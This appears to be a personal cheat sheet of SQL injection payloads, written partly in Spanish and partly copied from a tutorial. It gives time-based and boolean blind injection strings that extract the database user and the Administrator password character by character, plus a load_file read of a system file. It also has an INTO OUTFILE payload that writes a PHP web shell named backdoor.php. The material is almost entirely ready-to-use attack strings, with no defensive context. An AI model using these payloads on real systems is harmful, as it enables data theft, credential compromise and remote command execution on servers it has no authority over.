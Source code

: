 ```
http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'--
hangs for 10 seconds
http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),2,1)))>97) WAITFOR DELAY '00:00:10'--
http://[site]/page.asp?id=1; IF (ASCII(lower(substring((USER),2,1)))=98) WAITFOR DELAY '00:00:10'-- (+10 seconds)
hangs for 10 seconds
```
and so on



podemos probar
```
id=738-sleep(5)  <-si vemos que tarda es por que el input es injectable
select IF(MID(@@version,1,1) = '5',SLEEP(5),0)
```

tmb podemos probar con un and para ver si trae o no resultados
```
id=6 and 1=1
id=6 and 1=2
```
SUPONEMOs que es injectable y buscamos un archivo con load_file
```
id=738 union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```
Creamos un php
```
id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd'];?>",6 into OUTFILE'c:/xampp/htdocs/backdoor.php'
```

With blind SQL injection vulnerabilities, many techniques such as UNION attacks are not effective

## Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4

When a request containing a TrackingId cookie is processed, the application determines whether this is a known user using an SQL query like this:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data. If it returns data (because a recognized TrackingId was submitted), then a "Welcome back" message is displayed within the page.
```
xyz' UNION SELECT 'a' WHERE 1=1-- << shows welcome back
xyz' UNION SELECT 'a' WHERE 1=2--  << shows nothing
```
try to gues the password for Administrator:
```
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'--
```
We can continue this process to systematically determine the full password for the Administrator user.
